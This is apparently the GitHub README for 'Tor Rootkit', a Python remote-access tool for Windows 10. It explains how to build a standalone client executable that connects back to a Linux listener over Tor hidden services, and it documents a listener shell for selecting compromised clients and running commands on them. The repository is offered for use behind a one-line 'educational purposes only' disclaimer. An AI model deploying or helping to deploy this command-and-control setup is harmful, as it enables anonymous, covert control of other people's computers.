 # Tor Rootkit
[![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)
![Standalone Compilation](https://github.com/emcruise/TorRootkit/workflows/Standalone%20Compilation/badge.svg)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

#### Prerequisites
- [Tor](https://www.torproject.org/)
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r listener/requirements.txt
```

2. Run the listener:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients

## Listener Shell Usage
### Listener Server Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C`or`exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |

## Contribution
All contributions are appreciated.

## Credit 
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

